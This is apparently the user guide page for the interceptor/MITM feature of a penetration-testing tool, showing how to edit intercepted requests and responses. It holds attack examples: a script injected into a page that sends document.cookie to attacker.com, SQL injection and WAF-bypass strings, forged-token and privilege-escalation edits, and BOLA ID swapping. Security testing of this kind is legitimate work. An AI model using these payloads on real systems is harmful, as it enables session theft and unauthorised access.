

# 08 - Interceptor & MITM Request Modification

> **For:** All operators  
> **Read Time:** 20 minutes  
> **Difficulty:** ⭐⭐⭐ Intermediate  
> **Last Updated:** February 8, 2026

---

## Overview

> <span style="background-color: #2563eb; color: white; padding: 2px 6px; border-radius: 3px;">**INTERCEPTOR**</span> The **Interceptor modal** captures, analyzes, and modifies requests/responses in real-time. Like Burp Suite's Proxy tab but integrated into VaporTrace.

### Activation

```bash
Press: [F6]  or  Press: [I] in Dashboard
```

### Interceptor Workflow



---

## Core Features

### Feature 1: Request Interception

```
Example: Intercepting a login request

Before:
POST /api/auth/login HTTP/1.1
Content-Type: application/json

{"username":"user@example.com","password":"secret"}

In Interceptor (Editor Mode):
[EDIT] Change password
[EDIT] Add debug flag
[EDIT] Modify headers

After (Modified):
POST /api/auth/login HTTP/1.1
Content-Type: application/json
X-Debug: true

{"username":"user@example.com","password":"admin123","admin":true}
```

### Feature 2: Response Interception

Modify responses before your browser sees them:

```
API Response (Raw):
{"success":false,"error":"Permission denied"}

Modified in Interceptor:
{"success":true,"data":{"admin":true},"token":"forged-token"}

Browser Sees: Modified response (you have admin access!)
```

### Feature 3: Real-Time Analysis

```
[cyan]REQUEST:[-] POST /api/users/1000/profile
  Method: POST
  Headers: 12 total
  Body: 456 bytes
  Authentication: Bearer token
  
[yellow]ANALYSIS:[-]
  ⚠️ User ID 1000 (numeric, enumerable)
  ⚠️ Bearer token might be JWT
  ⚠️ Content-Type json
  
[cyan]SUGGESTION:[-]
  • Test BOLA: try different user IDs
  • Decode JWT to check expiry/claims
  • Try SQL injection in profile fields
```

---

## Interceptor Controls

### Keyboard Shortcuts (In Interceptor Modal)

| Key | Action |
|-----|--------|
| `e` | Edit mode (toggle) |
| `f` | Forward request |
| `d` | Drop request |
| `r` | Resend request |
| `j` | JSON prettify |
| `⬆️` / `⬇️` | Navigate request sections |
| `Tab` | Switch to response |
| `Esc` | Close interceptor |

### Interceptor Modes

#### 1. Pass-Through Mode (Default)

```
All requests pass through automatically
Status: [GREEN]  Pass-Through
Press: [I] to enter Intercept Mode
```

#### 2. Intercept Mode (Manual Review)

```
Each request stops for review
Status: [YELLOW]  Intercepting
Press: [F] to forward, [D] to drop
```

#### 3. Conditional Intercept

```
> intercept --condition "path contains /admin"
Only /admin requests intercepted
Other traffic passes through
```

---

## Request Editing

### Editing Headers

```
In Interceptor:
[Press E to edit]

Original:
  User-Agent: Mozilla/5.0...
  Authorization: Bearer token123
  Cookie: session=abc123

Modify:
  User-Agent: Custom Bot
  Authorization: Bearer admin-token  ← Changed
  Cookie: session=admin-session       ← Changed
  X-Admin-Mode: true                  ← Added
```

### Editing Body

```json
Original:
{
  "user_id": 100,
  "action": "view_profile"
}

Modified:
{
  "user_id": 999,              // Changed ID
  "action": "view_profile",
  "admin": true                // Added field
}
```

### Editing URL

```
Original:
GET /api/users/100/data?limit=10

Modified:
GET /api/users/999/data?limit=999&admin=true
          ↑ Changed         ↑ Changed
```

---

## Response Modification

### Scenario 1: Bypass 403 Forbidden

```
Original Response:
HTTP/1.1 403 Forbidden
{"error": "Permission denied"}

Interceptor (Edit Response):
HTTP/1.1 200 OK
{"data": "sensitive information"}

Result: Browser shows modified 200 response
```

### Scenario 2: Inject JavaScript

```
Original Response:
<html><body>Welcome</body></html>

Modified:
<html><body>Welcome</body>
<script>
// Steal session cookie
fetch('http://attacker.com?cookie=' + document.cookie);
</script>
</html>

Result: Exfiltrate cookies
```

### Scenario 3: Modify JSON Response

```
Original API Response:
{"admin": false, "balance": 100}

In Interceptor:
{"admin": true, "balance": 999999}
             ↑ Change yourself to admin
                      ↑ Max out balance

Result: Browser-based elevation of privileges
```

---

## Advanced Techniques

### Technique 1: Request Templating

Save common modifications:

```bash
> intercept save-template --name admin-bypass
[cyan]TEMPLATE:[-] Saved current modifications
  • Add X-Admin-Mode: true header
  • Change user_id to 1
  • Set admin=true in body

Later:
> intercept apply-template admin-bypass
[green]✓ APPLIED:[-] All modifications applied
```

### Technique 2: Regular Expression Replacement

```bash
> intercept regex "user_id=\d+" --replace "user_id=999"

Every request with numeric user_id automatically changed to 999
```

### Technique 3: Conditional Modification

```bash
> intercept --condition "path contains /admin" --auto-modify
  --header "X-Authorized: true"
  --body "admin=true"

Only /admin requests modified automatically
```

---

## Use Cases

### Use Case 1: JWT Token Testing

```
1. Intercept request with JWT
2. Copy JWT token
3. Edit: Modify claims (role=admin, exp=9999999999)
4. Re-sign if possible, or test unsigned
5. Forward modified request
6. Observe if admin access granted
```

### Use Case 2: BOLA Testing

```
1. Intercept GET /api/users/100/profile
2. Change ID: GET /api/users/999/profile
3. Forward
4. Check if you access user 999's data (BOLA found!)
```

### Use Case 3: SQL Injection Testing

```
1. Intercept GET /api/search?q=test
2. Change: GET /api/search?q=test' OR '1'='1
3. Forward
4. Check response for SQL injection indicators
```

### Use Case 4: WAF Bypass Testing

```
1. Intercept SQL injection payload
2. Try modifications:
   - Case changes: SeLeCt instead of select
   - Comments: /**/,/*!50000*/
   - Encoding: URL encode, HTML encode
3. Forward each variant
4. Find WAF bypass
```

---

## Tips & Tricks

✅ **DO:**
- Use interceptor for complex modifications
- Save templates for repeated attacks
- Combine with Stealth mode for evasion
- Test individual payloads before automation

❌ **DON'T:**
- Intercept every request (performance impact)
- Edit binary responses
- Forward malicious responses to production
- Forget to reset modifications

---

**See Also:**
- [04_STRATEGIC_PLANNING.md](04_STRATEGIC_PLANNING.md) - Integrating interceptor in attack chains
- [06_EXPLOITATION.md](06_EXPLOITATION.md) - Exploitation techniques to test

---

**Last Updated:** February 8, 2026  
**Version:** 1.0 - Production Ready
